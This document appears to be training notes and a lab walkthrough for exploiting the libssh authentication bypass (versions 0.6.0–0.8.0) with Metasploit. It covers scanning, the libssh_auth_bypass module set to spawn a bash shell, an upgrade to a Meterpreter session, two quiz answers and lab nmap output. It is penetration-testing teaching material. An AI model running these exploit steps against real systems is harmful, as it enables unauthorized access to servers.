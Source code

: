 - Secure Shell 
- Successor to Telnet
- Port 22 by default
- libssh V0.6.0-0.8.0 is vulnerable


Setup msfconsole
```
service postgresql start
msfconsole
setg RHOSTS <target_ip>
setg LHOST <local_ip>
```

Scan and Enumerate 
```
db_nmap -sS -sV -O <target_ip>
```

Exploit with libssh auxiliary module
```
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass
options
set SPAWN_PTY true
set CMD bash ? 
exploit
```

Upgrade shell to meterpreter 
```
search shell_to 
use post/multi/shell_to_meterpreter 
set SESSION <session_id>
exploit
```
## Quiz

Which one of the following Nmap scans can be used to enumerate the version of SSH running on a target?

	nmap -sS -sV -p 22 10.10.10.1

The "auxiliary/scanner/ssh/libssh_auth_bypass" module can be used to spawn a TTY session on the target system, which of the following module options can be used to spawn a TTY session after running the module?

	set SPAWN_PTY true

## Lab

The target server as described below is running a vulnerable SSH server. Your task is to fingerprint the application using command line tools available on the Kali terminal and then exploit the application using the appropriate Metasploit module. Get a Meterpreter shell on the target!

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
- The target server should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1
- postgresql is not running by default so Metasploit may give you an error about this when starting

```
Local IP: 192.43.43.2
Remote IP: 192.43.43.3
```

```
 db_nmap -Pn  -sS -sV -O 192.43.43.3

22/tcp open  ssh     (protocol 2.0)

1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[*] Nmap: SF-Port22-TCP:V=7.70%I=7%D=1/27%Time=65B50370%P=x86_64-pc-linux-gnu%r(NULL
[*] Nmap: SF:,16,"SSH-2\.0-libssh_0\.8\.3\r\n");
```